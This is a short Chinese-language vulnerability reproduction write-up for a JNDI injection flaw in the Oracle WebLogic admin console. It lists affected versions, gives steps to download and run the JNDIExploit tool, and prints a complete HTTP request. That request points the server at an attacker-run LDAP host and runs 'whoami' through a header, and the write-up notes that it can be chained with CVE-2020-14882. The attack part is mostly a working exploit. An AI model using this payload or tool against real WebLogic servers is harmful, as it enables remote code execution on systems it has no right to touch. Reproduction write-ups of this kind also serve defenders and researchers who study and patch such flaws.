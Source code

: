 # 0x00 软件介绍
Oracle WebLogic：一款流行的JAVA应用服务器

# 0x01 复现环境
复现环境：本地搭建的环境（win10 1909）  
复现版本：WebLogic v12.2.1.4.0  
环境搭建：  
参考[https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA](https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA)中的环境搭建部分

# 0x02 利用条件
需要登陆WebLogic控制台

# 0x03 影响版本
10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

# 0x04 漏洞复现
攻击环境：kali x64  
下载JNDIExploit：https://github.com/feihong-cs/JNDIExploit/releases/download/v.1.11/JNDIExploit.v1.11.zip  
启动JNDIExploit：java -jar ./JNDIExploit-v1.11.jar -i 192.168.1.5#其中192.168.1.5为本机IP  
登录WebLogic控制台  
再次访问WebLogic控制台，burp抓包，替换为如下payload
```
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;5:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.1.7:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cmd:whoami
Referer: http://192.168.1.7:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=-XjUGJChfEBvqXqZBo748vnBGr895IIDGF5cmnoR9HkR_uY8Hrfd!-1181708775
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
如下图，可以看到成功执行命令whoami  
![image](./0.png)

此漏洞可配合Weblogic未授权访问漏洞（CVE-2020-14882）使用

# 0x05 批量脚本
无

# 0x06 参考链接
https://www.o2oxy.cn/3019.html
